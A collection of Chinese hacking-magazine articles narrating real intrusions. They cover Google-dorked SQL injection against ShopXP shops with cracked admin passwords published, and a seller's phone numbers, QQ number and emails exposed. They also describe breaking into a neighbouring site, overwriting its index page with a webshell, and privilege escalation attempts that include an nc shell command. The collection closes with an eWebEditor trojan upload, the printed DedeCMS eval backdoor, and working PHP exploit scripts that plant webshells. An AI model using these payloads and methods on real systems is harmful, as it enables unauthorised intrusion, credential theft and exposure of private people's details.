打开Google，以“inurl:shopxp_news.asp”为关键字进行搜索，很快就得到了170,000个结果。接着进行账号及密码的尝试暴破：打开一条搜索链接，在浏览器地址栏中将后半部分“shopxp_news.asp?id=139”形式的内容删除，取而代之拼接上暴密码的EXP（TEXTBOX2.ASP?action=modify&news%69d=122%20and%201=%20union%20select%201,2,admin%2bpassword,4,5,6,7%20from%20shopxp_admin），然后回车进行访问，漏洞是否存在便一目了然了。如果出现一行类似于“adminb4378db8d1cd48b”的信息，那就说明这个网站仍存在该漏洞。虽然是八个月前的老漏洞，但经过小菜我仅仅十多分钟的排查，很快就得到了30个网站的账号与MD5密码（如图1）。

不过可别高兴得太早，因为暴出的MD5密码是否可以破解还尚在两可之间。对了，忘了说明一下：使用这种方法暴出的网站账号与MD5密码是紧紧连接在一起的，区分方法是先从右向左数出16位字符（这是MD5密码），剩下的第17位到最左边这一位就是账号了。接下来就是到网站上进行MD5密码的破解，一番复制和粘贴之后，除“未查到”和“收费”的MD5密码外，30个MD5密码只破解成功了10个，这就意味着剩下的20个目标网站已经从我们的“黑名单”中消失了。接着，当然就是找这10个网站的后台登录地址了。本来，根据大牛的最高指示——“默认管理后台：shopxp_admin”，我们可以直接在目标网站的域名之后添加“shopxp_admin”来访问网站的后台登录页面；但是，碰到的新问题差点儿让小菜我在此半途而废（大家就看不到本文了哈）。先是10个二级目标网站域名在添加“shopxp_admin”之后进行访问时无一成功，然后如法炮制尝试其它的20个名单之外的“目标”网站，竟然也全军覆没！难道是大牛错了么？大牛是不会犯错的啊……


图1

其实，还真是大牛错了！呵呵，小菜虽然没有大牛的浓厚功力，但耐心和韧性是可以有的。将这30个目标网站先全部拿到“明小子”中用“管理入口扫描”逐一过了一遍，结果发现其中有6个后台是域名后添加“/admin/login.asp”；然后自己手工尝试组合，终于发现其中还有11个后台是域名后添加“/admin_shopxp/shopxplogin.asp”的形式；另外还发现有2个后台是域名后添加“/admin/shopxplogin.asp”的形式。综合分析后不难得出这样的结论：大牛文中的“默认管理后台：shopxp_admin”其实应该修改成“默认管理后台：admin_shopxp/shopxplogin.asp”，因为经测试找到后台的19个目标网站中有11个是这样的，所占比例是57.9%。

从开始暴出了30个目标网站的账号与MD5密码，到被破解成功10个MD5密码和找到后台登录地址19个，二者一对照，小菜我得到了4个既有账号和密码又有后台登录地址的终极目标，成功率是13.3%，还不错的。分别是：“XX女人街”——账号是“aa”，MD5密码是“9335c27f08f624ba”【破解结果：“aa”】，后台登录地址是http://5xxxx8.cn/admin/login.asp；“XX花艺设计工作室”——账号是“admin”，MD5密码是“7a57a5a743894a0e”【破解结果：“admin”】，后台登录地址是http://www.hxxxxxxe.com/admin_shopxp/shopxplogin.asp；“XX用具”——账号是“bed”，MD5密码是“fb55be541af7a54a”【破解结果：“5656217”】，后台登录地址是：http://www.bxxxx9.com/admin/login.asp；“XX布批发网”——账号是“1234”，MD5密码是“49ba59abbe56e057”【破解结果：“123456”】，后台登录地址是：http://www.cxxxf.com/admin_shopxp/shopxplogin.asp。依次打开后台进行登录，非常顺利，4个网站的后台皆在眼底了（如图2）。

小结一下：从网站管理员的角度——第一，自己所使用的网站系统模板如果发现被暴有漏洞，务必要在第一时间内求助于官网；第二，设置的用户密码务必要足够复杂，可以把这个密码拿到MD5破解网站上先进行MD5加密再进行破解测试，务必要使破解测试的返回结果是“没找到”而不是“收获”甚至被直接破解；第三，安装网站系统时务必要更改模板所默认的路径，尤其是后台登录地址。


图2

如果它的保密性做得足够好的话，入侵者即使拿到账户和密码也如同是得到钥匙而找不到门锁一样无法进行下一步的入侵。

从我们的角度——
- 学黑需要灵活的大脑，要学会利用网络资源不断从大牛身上快速得到间接经验以武装自己，同时要切忌死板，记住“尽信大牛则不如无大牛”的道理，遇到问题不妨再多尝试几次；
- 学黑需要有耐心和毅力，要正视困难和问题，不能浅尝辄止，要有一种不达目的绝不要休的韧性；
- 学黑需要守法，切记不能图一时之快而胡作非为，对于国家计算机信息系统安全相关的法律法规要有所了解，保护好自己。

### 一次失败的旁注提权手法
年晓东

#### 引子：入侵检测的理由
话说那天在WooYun.org上查看最新出现的Web漏洞等信息，结果看到一条名为“中国语言文字网真是卖手机窃听器的好地方”的漏洞概要信息（http://www.wooyun.org/bugs/wooyun-2010-05033）。按照大牛的指示，小菜我也打开百度，输入“site:www.china-language.gov.cn”后“百度一下”，果然强悍，第一条搜索结果就是“窃听器-手机窃听器价格-哪里有窃听器卖-电话窃听器-手机监听器”，而在“百度快照”前面却赫然显示出链接是“www.china-language.gov.cn”（如图1）！点击打开之后，出现的也是正常的“中国语言文字网”（http://www.china-language.gov.cn/index.html）。


图1

另外，如果在百度上搜索“窃听器”的话，得到的搜索结果也非常令ZF恼火，竟然几乎是清一色的.gov网站遭了“黑手”（如图2），“www.china-language.gov.cn”仍然是稳居首位，接下来的还有www.qhd.gov.cn/（秦皇岛）、www.hnfzw.gov.cn/（河南法制）、www.lndrc.gov.cn/（辽宁）……怪不得上个月有“ZF站被黑帽SEO做六合彩流量”和“大量ZF网站被入侵”之类的漏洞公告出现（http://www.wooyun.org/bugs/wooyun-2010-04777和http://www.wooyun.org/bugs/wooyun-2010-04620），不管是以“六合彩开奖结果”还是以“hacked by”为关键字进行百度，都能找到N多的.gov网站被X（“有About 2,610 被人挂了黑页”），据说是因为权限高且安全性较弱而导致的，我无语了。


图2

究竟这个窃听器是何方神圣？经过一阵排查，小菜我将目标锁定在了“XX底”上，而且它的宣传点非常多，基本上都是申请个域名挂几个网页形式，比如www.xxxxx9.com就是其中之一，全部都是些.htm静态网页。

#### 一、社工踩点，首战失利
既然主页上找不出什么有价值的信息，那就到http://www.ip866.com/上先查查吧，得到的信息如下：IP地址是112.xxx.xxx.196（与Ping返回的结果一样），广东珠海的；域名注册时间是2009.07.07，更新时间是2011.08.10（基本上是挂着就不管了）。然后进一步查询更为详细的注册信息，得知该域名的注册邮箱是wangyf008@163.com。

接着，在Google上搜索这个邮箱，结果发现基本上就是个卖茶叶的大忽悠，很多卖茶叶网站都是用这个邮箱注册的。不过，顺便发现了他的“站长QQ：1241719263”，通过“查找联系人”查看他的资料，真是个卖茶的，电话（0595-26286366）、手机（15375790398）和姓氏（小陈）都出来了，而且又出来个邮箱wangbz118@163.com，还有个网站主页“www.82009.cn”，而且后面还有“管理员elink2008 liuwei2050”信息（如图3）。这个重要的信息，会不会是那个“XX底”的账号与密码呢？

## 一个人的战争


图3

将http://www.xxxxx9.com扔进明小子中进行“管理入口扫描”，很快得到两个结果：http://www.xxxxx9.com/login/admin/admin.asp 和 http://www.xxxxx9.com/login。先试一下第一个，是个商城管理系统（如图4），比较关键的地方有“站点物理路径：e:\\freehost\\xwd586998\\web\\login\\admin\\admin.asp”（是星外的虚拟主机）和“Scripting.FileSystemObject（FSO文本文件读写）/”，再试第二个，是个客户管理系统（如图5），将“elink2008/liuwei2050”分别填入，然后点击“立即登录”按钮，结果被提示“无法找到该页”，失败；又尝试了admin/admin等若干经典的弱口令组合，都不成功。

另外，小菜我还尝试了使用得到的用户信息来登录那两个163信箱，结果也没成功。看来，小菜的功力不到，此路不通。

#### 二、“旁注”X商贸，登录后台

既然目标网站没有“下嘴”的地方，而一番踩点工作之后所查到的若干信息也没能达到一击必杀的“社工”目的，接下来，旁注吧。打开Reverse-IP Tools（http://rootkit.net.cn/index.aspx），将目标域名“www.xxxxx9.com”粘贴到Domain之后点击后面的Scan按钮，结果显示该IP上共有13个网站（如图6）。


图4

嗯，还是从头开始吧，最好是找个较弱的企业站，成功的几率相对比较高。第一个是XX市人事考试网（edu.hxxxa.com.cn），不碰；第二个是个包装袋广告“死页”（www.0xxxbaozhuang.com），没东西，放弃；第三个是西安XX商贸有限责任公司网站（www.axxxxi.com），就拿它开刀吧！

先是在主页上粗略看了下，发现不管是“新闻中心”还是“产品展示”，其下级内容链接都是些“http://www.axxxxi.com/content/??0.html”的形式，那些注入检测工具肯定猜解不出什么注入点来。放弃这个网站再查下一个？不行，这可不是小菜的作风，再想想还有什么方法。对了，貌似某位大牛曾总结过的——入侵时要先扫描是否有上传点，这是捷径；然后是后台……注入点的猜解还要排在后面。是啊，我们不试一下明小子来扫描它的后台？然后，用“admin/admin”等弱口令和“'or'='”等万能密码尝试，说不定就会敲开对方的“后门”呢！


图5


图6


图7

很快，明小子就扫出其后台登录地址是 http://www.axxxxi.com/admin/login.asp，打开后发现显示的是“ASPCMS管理中心”。试了几个弱口令都没对上号，还是问Google大叔吧（关键词是“aspcms漏洞”），很快获知这种系统默认的管理员账号是admin，密码是123456，于是再次进行尝试性登录——非常幸运的是，管理员没更改密码，竟然登录成功了（如图7）！

#### 三、一番周折，拿到WebShell

既然进入了后台，接下来就是拿WebShell了。首先是看到了“站点物理路径：e:\freehost\mg1998\web\admin\right.asp”，与之前探测到的XX站点物理路径吻合，都是在“e:\freehost”中；另外，还看到了有FSO权限，非常好。但接下来却很不顺利，不管是直接上传ASP还是修改扩展名为JPG，以及进行数据库的备份和恢复，利用FCKeditor漏洞建立shell.asp目录……全部失败了。


图9


图10

后来在Google上又查到说可以建立个模板，文件名称命名为“1.asp”；而文件内容粘贴ASP大马内容（如图8），最后点击下面的“添加”按钮进行保存，可惜还是不成功。我再查，结果在WooYun网站看到今年2月10日提交并公开的“aspcms 后台文件无验证注入+cookies欺骗”一文（http://www.wooyun.org/bugs/wooyun-2010-04214），是否有效呢？试一下便知。前半部分的“后台注射”和“Cookies欺骗”就没必要看了，小菜只关心最后三行关键信息，如下：

### ——webshell获取——

所有版本存在后台编辑风格可以修改任意文件，获取webshell就很简单了：

```text
AspCms_TemplateEdit.asp?acttype=&filename=../../../index.asp
```

小菜马上依葫芦画瓢，构造出“http://www.axxxxi.com/admin/_Style/AspCms_TemplateEdit.asp?acttype=&filename=../../../index.asp”放到浏览器地址栏中进行访问，啊哈，显示出“编辑模板”界面，有门儿！“文件名称”是“../../../index.asp”，“文件内容”处将原来的内容清除，取而代之替换成ASP马的内容（如图9），点击下面的“修改”按钮，提示“The page at www.axxxxi.com says: 保存成功”，看来是成功了。试着访问一下马的地址：http://www.axxxxi.com/index.asp，哈哈，果然弹出了网马登录页面；输入事先设置好的密码，点击后面的“Login”按钮，OK，终于拿到了WebShell（如图10）！

#### 四、提权左冲右突，绝处求逢生

由于小菜之前从未尝试过提权操作，正好机会就摆在面前，激动啊！虽然之前观看了若干个提权视频，也从《X》上断断续续拜读过一些相关的零碎知识点，但真正让自己操作的时候，不免也觉得心里没底。因此就有了下面几个尝试性操作步骤：


图8

- 1. 进行端口扫描，看是否开有敏感端口

点击网马左侧菜单中的“端口扫描”，上方的“Scan IP:127.0.0.1”不用动，下方的“Port List”列出了从21、80到3389、43958等11个端口号（几乎所有网马都是这样的）；点击“scan”按钮，很快就出现了结果（如图11）：21、80、135、445、1433、3389共六个敏感端口开放。

可惜啊，43958端口是关闭的，Serv-U提权的条件不符，一条非常好的提权捷径就这么给堵住了。好在开了FTP的21端口、Telnet的135端口、SQL的1433以及远程3389，但愿下一步能够用得上。毕竟，多开个端口就意味着对方给我们多留了条路。

- 2. 查组件支持，看是否可执行cmd.exe

点击“组件支持”，很不错，像FSO（文件操作组件）、WScript.Shell（命令行执行组件）以及Adodb.Connection（数据库连接组件）后面都是打对勾的（如图12）。接着就应该找可读可写可执行的目录了，本来自己查找了几个这样的目录，比如“C:\Documents and Settings\All Users\Documents\115\Upload”，而且也将cmd.exe上传成功了（如图13）。但是，在勾选了WScript.Shell之后进行用户添加时却不成功，貌似这个目录只有读写权限而没有执行权限，郁闷。

忽然又想起某大牛说过ASPX马比ASP马要厉害，于是换了个ASPX马，一阵鼓捣之后仍无任何进展。我再换，又换个ASP的“不死之魂”大马，再翻，再翻……结果在D盘的回收站（D:\recycler）中看到了很多面熟的好东西（如图14）：著名的“巴西烤肉”Churrasco.exe、cmd.exe、cmd.com、nc.exe、pr.exe和MS11_046.exe等，全是些提权利器啊！再看时间，都集中在2月19日和2月26日两天（20多天前），原来是有前辈路过了，就是不知道他们是否已经提权成功，呵呵。既然东西都是现成的，那就省得小菜再去上传了，拿来用就是了。


但是，失败的打击又来了——在这里进行添加用户的操作无回显（如图15），未能成功添加用户，更不用说提到管理员权限了。不怕，不是还有Churrasco.exe么？添加用户，仍是失败；再用pr.exe试试，也是失败；接着用“D:\recycler\nc.exe -l -p 4444 -t -e D:\recycler”命令进行反弹，同时在本地机上使用Telnet命令连接，又失败；那个MS11_046.exe貌似是个漏洞利用程序，小菜下载到自己的机器上一试，原来可以添加一个用户和密码都是“willwei-wei”的账号（如图16），但在WebShell中就是不成功。

- 3. 暴破账号，挫败；查Config，无用

对了，之前曾用第一个ASP马查看过“用户账号”，其数量真是惊人啊（如图17），注意最右侧滚动条的位置！我把这些账号（系统用户）全部复制了出来，共有195个，也不知道是各网站管理者还是入侵者的。整理完毕之后挂接到DUBrute上暴破，希望能找出个有弱口令的账号，这样就能直捣黄龙府了，但好几个小时过去了，仍没结果。


图17

接着又在“e:\freehost\mg1998\web\config”目录中找到了一个名为AspCms_Config.asp的文件，打开看了一下（如图18），信息也很重要——数据库账号和密码都是sa，可惜小菜我不会利用，都懵了。不过，确定了对方的数据库类型为Access，其文件路径是data/data.asp，名称为aspcms等信息。


图18


图19

#### 五、一个并不完美的结局

### 1. 案沉况思：为什么失败呢？

断断续续已经进行了十多个小时，已经很晚了，休息一下先，查查提权的资料，看看问题到底出在哪里。回想之前的整个过程，最让小菜纠结的莫过于“巴西烤肉”了——名气如此响亮的提权利器，为什么在我手里就哑火了呢？经过一番百度和Google，小菜终于得知这个Churrasco.exe运行成功其实是有条件的。因为这个“烤肉”和其它0day利用程序的实质一样，它是Win 2003系统下的一个本地提权漏洞，只有在对方的KB952004号系统补丁未打上的前提下才能提权成功；而验证对方是否打上对应补丁的方法就是使用Systeminfo命令，或者读取注册表 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Hotfix 的信息（如图19）。还有，NC命令反弹失败，据说是对方安装有防火墙的原因，有待以后验证。

##### 2. 痛定思痛：一个很严重的失误！

一整天之后，不甘心的我想再次尝试一下，看看是不是因为对方打了对应补丁而导致Churrasco.exe无法提权；再就是根据查到的资料来尝试一下星外的若干可写目录提权，比如按虚拟机上安装的第三方软件漏洞；甚至，小菜我都想到了提权成功之后3389留Shift后门……可惜啊，当我自信满满地访问自己之前上传的几个大马时，竟然都消失了！

三秒钟之后我就知道自己之前犯下了多么大的一个错误——进后台上传的第一个大马的名称是完全按照WooYun网站的指示来操作的，是“index.asp”，自己当时竟然没在退出时给还原回去！这样一来，别人在访问该网站的时候，弹出的就是这个大马登录界面了，那网管还不直接给Kill掉啊？顺便，我的另外两个马也牺牲了。接下来，我越来越清楚自己的这个低级错误到底有多严重——管理员将后台修改了，怎么扫都扫不出来！不过，记得之前曾在“e:\freehost\mg1998\web\config”目录中看到AspCms_Config.asp文件，上面说数据库文件路径是“data/data.asp”。这个会不会变呢？


图20

于是在线浏览器中访问“http://www.axxxxi.com/Data/data.asp”，结果返回一些“Standard Jet DB……”之类的乱码（如图20），果然不出所料啊，数据库还没改。赶快调用迅雷下载，得到了一个大小为1.12MB的“data.asp”文件，将其重命名为“data.mdb”；再双击用本地的Access 2010打开。双击左侧的AspCms_User表，有四个用户，包括admin在内（如图21）。在线破解一下。

一是admin的密码根本没改，二是这些密码基本上就是弱口令的突出代表，在此曝光一下：

- 账号admin，MD5密码：49ba59abbe56e057【破解结果：123456】
- 账号aaa，MD5密码：4f589f4867dbd57e【破解结果：aaa】
- 账号LXM，MD5密码：77804d2ba1922c33【破解结果：888888】
- 账号SX168，MD5密码：c831b04de153469d【破解结果：666666】


但是，后台找不到了，小菜我只能悲叹与二次进入WebShell提权擦肩而过。本来，还可以从探测到的十几个网站中再找旁注点下手的；只是这样的惨痛教训着实让小菜扼腕嗟叹。想来想去，还是暂且放一放吧：毕竟，失败有时也是非常美丽的，它让我们能更加珍惜曾经摆在面前的机会，让我们学会在以后的道路上把脚步迈得更加成熟。

撰写此文，与众小菜共勉。

### 友情链接测某网站

今天在QQ上的时候朋友让我帮忙检测一下他的网站安全性，正好今天也没什么事情，就答应了下来。

打开他们主页，发现是PHP开发的，如图1。


好了，先进行第一步踩点吧。用wwwscan稍微扫描了一下，发现网站使用了eWebEditor和phpMyAdmin。在eWebEditor还扫出了两个比较诱人的页面，那就先从它下手吧，如图2。


打开链接 http://www.xxx.com.cn/eWebEditor/ewebeditor.htm，看到的却只是一个空白页面，如图3。


暂且不管它，看是否还有其他敏感文件，却意外发现居然存在目录浏览漏洞。呵呵，看来管理员有点疏忽了，如图4。


随便翻了一下eWebEditor目录下的文件，第一个想法是寻找数据库和管理登录页面，然后用常规方法突破获得更高权限，但是找了一遍却什么也没有发现。木有db，也木有登录口。好在事情也没有想象中的那么糟糕，发现了一个貌似能够上传的地方，如图5。

嘿嘿，试试直接传小马吧。

但正当我兴冲冲准备上传的时候，却发现了一件令人相当无语的事情：页面上能够选择文件，但却没有上传按钮……顿时就思密达了……(>_<)……如图6。


右键查看源代码，粗略浏览一下，的确是没有实现上传功能，但上传接口是存在的。伤脑筋，居然让我遇上阉割版的家伙了，如图7。


事情总是有解决办法的，既然接口都放上去了他没实现功能，那就让我们帮他补全一下吧。

将上面的源代码保存到本地，将form action地址加上页面链接，然后再给它加个提交按钮。

修改后的代码如图8所示。

好了，将代码保存然后在本地打开修改后的文件，选择文件上传。虽然页面提示了一点小警告，但我们发现它返回了文件上传地址。我们访问一下验证是否上传成功，如图9。


刚才我上传的是一个PHP一句话木马，先在web页面打开刚才上传返回的地址，发现没有提示文件不存在等错误，看来是个好兆头，如图10。


将地址添加到菜刀中，进行最后确认，如图11。


好了，到此此次检测就算告一段落了吧，相关检测结果后来跟朋友说了一下。

本人小菜一枚，技术跟文笔可能都不是很好，谨作此文，望能与各位看官多多交流探讨。

### DedeCMS后门漏洞利用程序编写

DedeCMS，又叫织梦内容管理系统，是国内最著名的PHP网站内容管理系统之一。看下DedeCMS官方对它的介绍：“国内最专业的PHP网站内容管理系统——织梦内容管理系统，他将是您轻松建站的首选利器。采用XML名字空间风格核心模板；模板全部使用文件形式保存，对用户设计模板、网站升级转移均提供很大的便利，健壮的模板标签为站长DIY自己的网站提供了强有力的支持。高效率标签缓存机制：允许对类同的标签进行缓存，在生成HTML的时候，有利于提高系统反应速度，降低系统消耗的资源。模型与模块概念并存：在模型不能满足用户所有需求的情况下，DedeCMS推出一些互动的模块对系统进行补充，尽量满足用户的需求。众多的应用支持：为用户提供了各类网站建设的一体化解决方案，在本版本中，增加了分类、书库、黄页、圈子、问答等模块，补充一些用户的特殊要求。面向未来过渡：织梦团队的组建为织梦CMS的发展提供坚实的基础，在织梦团队未来的构想中，它以后将会具有更大的灵活性和稳定的性能。”

因为使用量大，因为出名，DedeCMS也成了很多黑客和挖洞牛人关注的目标，也因此DedeCMS曾经被爆出过几个严重的安全漏洞，很多友子可能还利用那些漏洞拿过shell，怕怕。

2012年3月20日，jsbug在乌云公布了“Dedecms疑似被植入后门”的漏洞，说是从官方下载的DedeCMS V5.7 SP1疑似被植入一句话后门。当天晚上我从DedeCMS官方下载了DedeCMS-V5.7-GBK-SP1.tar，也看到了后门代码。3月22日当天从官方下载，后门代码已经被清除。小菜估计DedeCMS的官方网站可能被人拿下，然后在提供下载的DedeCMS V5.7 SP1的源代码中植入了后门代码。希望DedeCMS能给大家一个解释。如果网站利用的是被植入了后门的DedeCMS，危害还是很严重的，利用插入的后门可以轻易获得网站的shell。

#### 一、漏洞细节简介

来简单看下具体是哪里被植入了后门。根据jsbug公布的漏洞介绍，是shopcar.class.php被植入一句话@eval(file_get_contents('php://input'));。解压我3月20日晚从官方下载的DedeCMS-V5.7-GBK-SP1.tar，发现被植入后门的文件shopcar.class.php在include目录下。

用记事本打开shopcar.class.php，果然发现了被插入的后门代码“@eval(file_get_contents('php://input'));”，如图1。


图1

后门代码所处的代码段为：

```php
define("DE_ItemEcode", 'Shop_De_'); //识别购物车cookie前缀，非开发人员请不要随意更改！
/**
 * 购物车类
 *
 * @version        $id: shopcar.class.php 2 20:58 2010年7月7日Z tianya $
 * @package        DedeCMS.Libraries
 * @copyright      Copyright (c) 2007 - 2010, DesDev, Inc.
 * @license        http://help.dedecms.com/users-guide/license.html
 * @link           http://www.dedecms.com
 */

// -----------------------------------

/**
 * 会员购物车类
 *
 * @package        MemberShops
 * @subpackage     DedeCMS.Libraries
 * @link           http://www.dedecms.com
 */
class MemberShops
{
    var $OrdersId;
    var $productsId;

    function __construct()
    {
        $this->OrdersId = $this->getCookie("OrdersId");
        if(empty($this->OrdersId))
        {
            $this->OrdersId = $this->MakeOrders();
        }
        @eval(file_get_contents('php://input'));
    }

    function MemberShops()
    {
        $this->__construct();
    }
}
```

shopcar.class.php文件中只有一个MemberShops类，构造函数里面出现了后门，当类被实例化的时候就会自动执行构造函数，程序猿你懂的。。。

eval执行和file_get_contents获取内容不用说了，php://input这个是输入流，接收的是post内容，但是post类型不能为multipart/form-data。

在eclipse里搜索new MemberShops，找到/plus/car.php里面实例化了这个类：

```php
require_once(dirname(__FILE__)."/../include/common.inc.php");
define('_PLUS_TPL_', DEDEDROOT.'/templets/plus');
require_once(DEDEINC.'/dedetemplate.class.php');
require_once DEDEINC.'/shopcar.class.php';
require_once DEDEINC.'/memberlogin.class.php';
$cart = new MemberShops();
```

#### 二、漏洞利用方法简单分析

知道我下载的DedeCMS V5.7 SP1被植入了一句话后门，但怎样利用它拿到shell却不会，惭愧啊。3月21日凌晨，朋友舞林在微博上公布了dedecms5.7一句话后门利用的一个exp，地址：http://forum.cnsec.org/thread-82493-1-1.html，在帖子中舞林给出了对漏洞利用的简单分析，这里直接引用：

> “晚上看到这个http://www.wooyun.org/bug.php?action=view&id=5416
>
> shopcar.class.php被植入一句话
>
> @eval(file_get_contents('php://input'));
>
> 去官网下载了一套回来，看了下代码，
>
> class MemberShops
> {
>     var $OrdersId;
>     var $productsId;
>
>     function __construct()
>     {
>         $this->OrdersId = $this->getCookie("OrdersId");
>     }
> }”

#### 三、漏洞利用程序编写

### 1. 舞林的原版exp

在http://forum.cnsec.org/thread-82493-1-1.html中舞林的编写exp介绍如下：

> “开始的时候写了个简单的表单去测试，发现php://input的内容中特殊符号会被urlencode，很奇怪吧，明明取的是post，却像get一样被编码，既然如此，那就自己构造post了，抓个包，用fsockopen()函数模拟post提交吧，exp如下：”

```php
<?php
//author: 舞林
//date : 2012-03-21 00:31:05
//shell一句话地址 /plus/dst.php 密码cmd
//www.t.com/dede/plus/car.php

error_reporting(E_ERROR);
set_time_limit(0);
$url = 'www.t.com';      //目标域url
$dir = '/dede';          //dedecms安装目录

//$content = '$a=${@phpinfo()};';
$content = '$a=${@file_put_contents("dst.php","<?php eval(\$_POST[cmd]); ?>")};';

$data = "POST $dir/plus/car.php HTTP/1.1\r\n";
$data .= "Host: localhost\r\n";
$data .= "User-Agent: Mozilla/5.0 (Windows NT 5.2; rv:5.0.1) Gecko/20100101 Firefox/5.0.1\r\n";
$data .= "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n";
$data .= "Content-length: ".strlen($content)."\r\n\r\n";
$data .= $content."\r\n";

$socket=fsockopen($url,'80');
if ($socket) {
    fwrite($socket,$data);
    while (!feof($socket)) {
        $exp.=fgets($socket,1024);
    }
    echo $exp;
} else {
    echo 'socket err';
}
```

加上有时候利用这个exp的时候明明漏洞可以利用却提示“socket err”，因此这个exp可以进行修改完善。


图2

### 2. 我的修改版exp

我决定在舞林给出的exp基础上修改这个exp，使它更方便使用。第一个修改的地方是把目标网站的地址和DedeCMS安装目录不再在exp中直接指定，而是通过命令行参数传递给exp。修改后的exp的代码为：

```php
<?php
$host=$argv[1];
$path=$argv[2];
$path=$path."plus/car.php";
$url=$path;
if(count($argv)<3){
    print_r('
Usage: php '.$argv[0].' host path
Example:
php '.$argv[0].' www.site.com path
作者: 舞林 http://t.qq.com/wulinlw
修改: txcbg http://t.qq.com/txcbg
');
    exit;
}
$data='$a=${@file_put_contents("dst.php","<?php eval(\$_POST[cmd]); ?>")};';
$buffer = POST($host,80,$url,$data,30);

echo "shell:http://$host$argv[2]plus/dst.php,pass:cmd";
function POST($host,$port,$path,$data,$timeout,$cookie=''){
    $buffer='';
    $fp = fsockopen($host,$port,$errno,$errstr,$timeout);
}
```

非常感谢舞林公布的exp，不然我还不知道怎么用呢，嘿嘿。把他给的exp代码保存为文件exp.php就可以用了。

为了测试这个exp，我在虚拟机里把从官方下载回来的“DedeCMS-V5.7-GBK-SP1.tar”进行了安装，安装好后在虚拟机里的网站首页访问地址为http://192.168.197.130/dede7/index.php，如图2。

通过看舞林给出的exp代码可以知道，目标网站的地址和DedeCMS的安装目录都是在代码中固定好的，要自定义目标网站和DedeCMS的安装目录的话有点不方便（只是稍微，其实修改exp代码中的目标网站的地址和DedeCMS的安装目录也很方便，只需要修改url和dir变量的值）。

把上面代码保存为exp2.php。因为exp是用PHP写的，利用的时候需要用到php.exe，安装PHP软件后系统中就会有php.exe。我的虚拟机系统中已经安装了PHP，不用再安装了。把exp2.php复制到php.exe所在的目录，我这里是C:\php\目录下。下面来测试下修改后的exp是否可用。打开命令提示符，切换到C:\php\目录下，输入php exp2.php，回车后就可以看到程序的用法了，如图3。


程序的利用格式为：

```text
php exp2.php host path
```

其中php代表php.exe，exp2.php是exp文件的名字，host是目标网站的域名或IP地址，path是DedeCMS的安装目录，在网站根目录下用/表示，在dede目录下用/dede/表示。因为在虚拟机里本机测试，IP地址为192.168.197.130，path为/dede7/，输入php exp2.php 192.168.197.130 /dede7/，回车后显示“shell:http://192.168.197.130/dede7/plus/dst.php,pass:cmd.”，好像利用成功了（图4）。来到DedeCMS安装目录下的plus子目录下，发现了生成的shell文件dst.php，用记事本打开dst.php，发现了php一句话木马服务端代码“<?php eval($_POST[cmd]); ?>”，如图5。用lanker一句话PHP后门客户端3.0连接http://192.168.197.130/dede7/plus/dst.php，填上密码cmd，成功获得shell，如图6。


### 3. 我的再修改版exp

上面我修改的exp虽然可以利用了，但它还存在明显的不足，比如不能判断目标网站是否存在这个漏洞，不管利用成不成功都会显示一个shell的地址，其实如果目标网站不存在这个漏洞的话根本是生成不了shell文件的，给出的shell地址自然也不存在。我决定对舞林给出的exp进行再修改，加入判断目标网站是否存在这个漏洞的功能。


怎样判断目标网站是否存在这个漏洞呢？仔细看舞林给出的exp代码，关键代码就是向目标网站plus目录下的文件car.php通过post方式提交数据“$a=${@file_put_contents("dst.php","<?php eval($_POST[cmd]); ?>")};”，是个代码执行漏洞。再仔细看，有一句被注释掉的代码“//$content = '$a=${@phpinfo()};'”，看来也可以提交数据“$a=${@phpinfo()};”，作用是执行函数phpinfo()，看看是不是这样。把exp2.php中的代码简单修改下，把提交的数据由“$a=${@file_put_contents("dst.php","<?php eval($_POST[cmd]); ?>")};”修改为“$a=${@phpinfo()};”，然后在代码“$buffer = POST($host,80,$url,$data,30);”下面增加一行代码“fputs(fopen('test.txt','aw'),$buffer);”，也就是把post提交数据后返回的数据写入到exp2.php所在目录下的文件test.txt中。保存对exp2.php的修改，再次在命令提示符中输入命令php exp2.php 192.168.197.130 /dede7/，回车后在C:\php\目录下生成了文件test.txt，如图7。把test.txt复制一份，重命名为test.html，用浏览器打开test.html，显示如图8。看来提交的phpinfo()函数被执行了。

我想通过是否能执行phpinfo()函数来判断是否程序被植入了后门代码。如果phpinfo()函数被执行了就判断网站程序被植入了后门代码，否则判断网站程序没有被植入后门代码。

通过搜索test.txt文件，发现“allow_url_fopen”这个字符串在test.txt中只出现了一次，因此我把它简化为先提交数据“$a=${@phpinfo()};”，如果在返回的数据中出现“allow_url_fopen”这个字符串就说明网站程序被植入了本文介绍的后门，接着提交生成shell的代码“$a=${@file_put_contents("dst.php","<?php eval($_POST[cmd]); ?>")};”；如果返回的数据中没有出现“allow_url_fopen”这个字符串，就说明网站程序没有被植入本文介绍的后门，结束程序。具体代码为：

```php
<?php
$host=$argv[1];
$path=$argv[2];
$path=$path.'plus/car.php';
$url=$path;

if(count($argv) < 3){
    print_r('
usage: php '.$argv[0].' host path
Example:
php '.$argv[0].' www.site.com path
作者：舞林 http://t.qq.com/wulinlw
修改：txcbg http://t.qq.com/txcbg
');
    exit;
}

$data='$a=${@phpinfo()};';
$buffer = POST($host,80,$url,$data,30);
preg_match('/allow_url_fopen/', $buffer, $arr_suc);
$str='allow_url_fopen';

if($arr_suc[0]==$str){
    echo 'Congratulations,target exist this bug\n';
    $data='$a=${@file_put_contents("dst.php","<?php eval($_POST[cmd]); ?>")};';
    $buffer = POST($host,80,$url,$data,30);
    echo 'shell:http://'.$host.$argv[2].'plus/dst.php,pass:cmd';
} else {
    echo 'Sorry,target may not exist this bug';
    exit;
}
```

## 一个人的战争

```php
function POST($host,$port,$path,$data,$timeout,$cookie="") {
    $buffer='';
    $fp = fsockopen($host,$port,$errno,$errstr,$timeout);
    if(!$fp) die($host.':'.$path.' : '.$errstr.$errno);
    else {
        fputs($fp, "POST $path HTTP/1.0\r\n");
        fputs($fp, "Host: $host\r\n");
        fputs($fp, "Content-type: application/x-www-form-urlencoded\r\n");
        fputs($fp, "Content-length: ".strlen($data)."\r\n");
        fputs($fp, "Connection: close\r\n\r\n");
        fputs($fp, $data."\r\n\r\n");
        while(!feof($fp)) {
            $buffer .= fgets($fp,4096);
        }
        fclose($fp);
    }
    return $buffer;
}
?>
```

把上面代码保存为`exp3.php`，也放到`C:\php\`目录下。删除原来生成的shell文件`dst.php`。在命令提示符下输入命令：

`php exp3.php 192.168.197.130 /dede/`


